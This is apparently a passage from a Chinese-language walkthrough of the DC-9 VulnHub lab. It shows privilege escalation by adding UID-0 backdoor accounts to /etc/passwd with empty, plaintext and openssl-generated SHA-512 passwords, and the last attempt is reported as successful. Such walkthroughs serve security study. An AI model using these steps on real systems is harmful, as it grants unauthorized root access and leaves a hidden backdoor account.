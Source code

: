 ```shell
root:x:0:0:root:/root:/bin/bash
用户名:密码:用户标识号:组标识号:注释性描述:主目录:默认登录Shell

#其中x表示密码存储在/etc/shadow文件中
```

那么这里就不使用x，把密码直接写入在`/etc/passwd`，并仿造`root`的形式，添加一个新用户



```shell
dijia::0:0:dijia:/root:/bin/bash	#尝试构造空密码的具有root权限的用户

gogo:123456:0:0:gogo:/root:/bin/bash	#尝试构造明文密码具有root权限的用户
```

那么尝试进行加密吧，可以使用`openssl`工具进行生成，或者去在线网站进行加密都行

```shell
openssl passwd -6 -salt 123 123456

#这里若是不知道含义，可以具体使用openssl -h 查看帮助，不过最好是在kali中，因为靶机内查看有问题
#openssl passwd是 OpenSSL 工具提供的一个用于生成加密密码（哈希值）的命令
#-6 是指采用sha512算法
#-salt 123 是指使用加盐操作，盐值为123
#123456 为指定加密的密码
#扩展
#-1 是指使用MD5算法
#-5 是指采用SHA-256算法
```

这里可以直接加密自然是可以，不过为了严谨，我这里把之前读取的`/etc/shadow`文件中的密码，进行一个分析，借助网站`www.dcode.fr`，发现解出算法以及盐值

![](D:\stu\vulnhub\DC靶场\pic-9\34.jpg)

![35](D:\stu\vulnhub\DC靶场\pic-9\35.jpg)

那么就按照这个进行加密，然后复制这个加密的结果

```shell
openssl passwd -6 -salt lFbb8QQt2wX7eUeE 123456
```

![](D:\stu\vulnhub\DC靶场\pic-9\36.jpg)

那么现在再次构造，之前是空密码和明文密码，这里采用加密密码，再进行测试

```shell
final1:$6$lFbb8QQt2wX7eUeE$S63c0lmQQPy9FpNzpz5xy688Ur6ZlDQq62BGgeB1tSp5OssLCRc1VhOAIzORv4FplJbZdbR.hohEqY9LCFlmD/:0:0:final1:/root:/bin/bash
```

![](D:\stu\vulnhub\DC靶场\pic-9\37.jpg)

可以看到，成功提权

假设，若是这种方式也不行的话，可能其做了限制，不允许在`/etc/passwd`中添加密码，只能在`/etc/shadow`文件中，那么就需要再次构造了
